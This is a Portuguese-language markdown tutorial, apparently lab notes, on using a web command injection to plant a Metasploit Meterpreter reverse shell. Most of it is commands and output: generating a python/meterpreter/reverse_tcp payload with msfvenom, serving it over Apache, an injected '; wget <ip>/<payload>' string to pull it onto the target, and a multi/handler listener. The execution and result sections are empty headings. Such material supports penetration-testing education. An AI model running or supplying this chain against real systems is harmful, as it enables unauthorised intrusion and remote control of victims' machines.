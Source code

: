 # Command Injection com Meterpreter

**Objetivo:** repetir o exercício de invasão web com command injection, porém carregando um payload na máquina alvo para nos permitir acesso a um meterpreter.

## Criação do payload

Criaremos o payload através do aplicativo msfvenom do metasploit.

### Passo 1 - Procura e escolha o payload

Comando: `msfvenom -l payloads | grep <filtro>`

```
$ msfvenom -l payloads | grep meterpreter | grep python
                                       
    cmd/unix/python/meterpreter/bind_tcp                               Execute a Python payload as an OS command from a Posix-compatible shell. Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Listen for a connection
    cmd/unix/python/meterpreter/bind_tcp_uuid                          Execute a Python payload as an OS command from a Posix-compatible shell. Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Listen for a connection with UUID Support
...
    python/meterpreter/reverse_tcp                                     Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Connect back to the attacker
    python/meterpreter/reverse_tcp_ssl                                 Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Reverse Python connect back stager using SSL
    python/meterpreter/reverse_tcp_uuid                                Run a meterpreter server in Python (compatible with 2.5-2.7 & 3.1+). Connect back to the attacker with UUID Support
    python/meterpreter_bind_tcp                                        Connect to the victim and spawn a Meterpreter shell
    python/meterpreter_reverse_http                                    Connect back to the attacker and spawn a Meterpreter shell
    python/meterpreter_reverse_https                                   Connect back to the attacker and spawn a Meterpreter shell
    python/meterpreter_reverse_tcp                                     Connect back to the attacker and spawn a Meterpreter shell
```
Selecionamos o payload **python/meterpreter/reverse_tcp**. 

### Passo 2 - Configuração e criação do payload

Para conhecer as opções de configuração do payload, usamos o msfconsole do metasploit:

```
$ msfconsole                                                                                    
Metasploit tip: View a module's description using info, or the enhanced 
version in your browser with info -d
                                                  
       =[ metasploit v6.4.84-dev                                ]
+ -- --=[ 2,547 exploits - 1,309 auxiliary - 1,683 payloads     ]
+ -- --=[ 432 post - 49 encoders - 13 nops - 9 evasion          ]

Metasploit Documentation: https://docs.metasploit.com/
The Metasploit Framework is a Rapid7 Open Source Project

msf > use python/meterpreter/reverse_tcp

msf payload(python/meterpreter/reverse_tcp) > show options

Module options (payload/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


View the full module info with the info, or info -d command.

msf payload(python/meterpreter/reverse_tcp) > exit
```
Criamos o payload informando o IP e a porta de escuta:
```
$ msfvenom -p python/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=6666 >>meu_payload.py
[-] No platform was selected, choosing Msf::Module::Platform::Python from the payload
[-] No arch selected, selecting arch: python from the payload
No encoder specified, outputting raw payload
Payload size: 432 bytes
```
`>>meu_payload` informa o arquivo de saída com o payload. No caso, meu_payload.py gravado no diretório corrente.
```
$ ls *.py                                                                                
meu_payload.py
```
## Disponibilização do payload

### Passo 1 - iniciar o serviço web
```
$ sudo service apache2 start
[sudo] senha para OpsShadow: 
```
### Passo 2 - copiar o payload para o serviço web
```
$ sudo cp meu_payload.py /var/www/html/                                                         

$ ls /var/www/html                                                         
index.html  index.lighttpd.html  index.nginx-debian.html  meu_payload.py
```
### Passo 3 - copiar o payload para a máquina alvo
`; wget <ip>/<payload>`
### Passo 4 - encerrar o serviço web
`$ sudo service apache2 stop `
## Execução do ataque

### Passo 1 - iniciar a escuta
Iniciamos a escuta informando o IP e a porta de escuta (a  mesma do payload)
```
msf > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp

msf exploit(multi/handler) > set LHOST 192.168.1.10
LHOST => 192.168.1.10

msf exploit(multi/handler) > set LPORT 6666 
LPORT => 6666
msf exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.1.10:6666
```
### Passo 2 - Executar o payload no alvo



### Resultado

